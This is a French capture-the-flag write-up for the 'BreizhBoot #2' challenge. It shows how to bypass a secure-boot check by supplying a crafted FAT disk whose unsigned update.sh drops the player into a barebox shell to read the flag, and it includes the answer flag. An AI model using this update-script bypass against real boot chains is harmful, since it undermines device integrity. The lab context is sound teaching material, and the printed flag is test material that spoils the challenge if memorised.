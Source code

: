 # BreizhBoot #2

Le secure-boot est géré via un mécanisme de hash SHA-1. Il est (quasiment) impossible de trouver une collision pour ce dernier. On va donc devoir trouver une autre façon : lorsqu'une image n'est pas présente, un script d'update se lance automatiquement, et on peut le controler !

## Solve

On peut créer un disque avec un script d'update (`update.sh`) qui va nous laisser reprendre la main sur le boot, par exemple en droppant un shell.

```bash
# Create disk and file system (FAT)
dd if=/dev/zero of=fitImage-disk.img bs=1K count=50
mkfs.vfat fitImage-disk.img

# Mount disk
mkdir -p fs
sudo mount -o loop fitImage-disk.img fs/

# Create update.sh with only shell to use barebox's shell
sudo sh -c "echo sh > fs/update.sh"

# Un-mount
sudo umount fs/
```

Ensuite, on lance le client :
`python3 client.py fitImage-disk.img localhost 1337`

Le menu apparait : 
```
[BREIZH-BOOT] Select boot image:
1) fitImage-1
2) fitImage-2
3) fitImage-3
4) fitImage-4
Enter choice: 
>>
```

On sélectionne n'importe quelle image, et le script ajouté va s'executer :

`1`

```
[BREIZH-BOOT] Selected image not found! Running default...
barebox:/ $ cat /mnt/virtioblk1/flag.txt
BZHCTF{Upd4t3s_4r3_p4rt_0f_Th3_S3cur3B00t_Pr0c3ss}
```

## Admin test
Le disque `fitImage-disk-solve.img` résout le challenge.

`python3 client.py ../solve/fitImage-disk-solve.img localhost 1337`


**Flag :**
> BZHCTF{Upd4t3s_4r3_p4rt_0f_Th3_S3cur3B00t_Pr0c3ss}
